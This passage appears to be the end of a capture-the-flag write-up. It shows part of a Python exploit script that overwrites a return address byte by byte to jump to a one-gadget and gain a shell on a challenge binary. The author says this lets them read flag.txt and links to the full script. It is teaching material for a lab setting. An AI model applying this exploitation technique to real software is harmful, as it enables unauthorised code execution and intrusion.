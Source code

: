 ```py
bretaddr = p64(retaddr)

# Figure out what we need to subtract bitwise for the relative write
sub1 = (bretaddr[0] - bonegadget[0]) & 0xFF
sub2 = (bretaddr[1] - bonegadget[1]) & 0xFF
sub3 = (bretaddr[2] - bonegadget[2]) & 0xFF

bmain = p64(chal.symbols["main"])

set_long(80, p64(0)) # set r12 to 0
set_long(88, p64(0)) # set r13 to 0
set_long(112, p64(chal.symbols["items"] + 0x48)) # set rbp to some .data variable + 0x48

# Offset the return address to one gadget
sub_byte(120, sub1)
sub_byte(121, sub2)
sub_byte(122, sub3)

kill_bunnies()
run(r)
```
And with this, we get a shell and can run `cat flag.txt`

The final script can be found as a [gist on my github](https://gist.github.com/pawnlord/b84f3b89d6942c1d83ee6150adce69f8) (along with the [random values](https://gist.github.com/pawnlord/422780d02b414daa98fcbcad10443c6c), for completeness)
